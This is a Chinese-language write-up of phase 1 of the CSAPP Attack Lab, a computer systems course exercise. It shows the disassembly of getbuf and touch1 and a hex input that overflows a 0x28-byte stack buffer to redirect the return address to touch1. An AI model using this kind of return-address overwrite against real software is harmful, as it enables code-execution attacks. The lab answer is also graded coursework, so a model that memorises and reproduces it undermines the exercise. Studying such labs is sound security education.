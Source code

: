 # CSAPP-Attacklab

程序在一系列的初始化之后，会进入test



## phase_1

```assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
```

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
```

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

覆盖返回地址，使程序进入`touch1`。`getbuf`的栈长度为`0x28`，`Gets`的第一个参数正好在栈上。所以，先输入`0x28`字节的`padding`，然后覆盖返回地址为`touch1`的地址。

答案(必须是hex)：

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
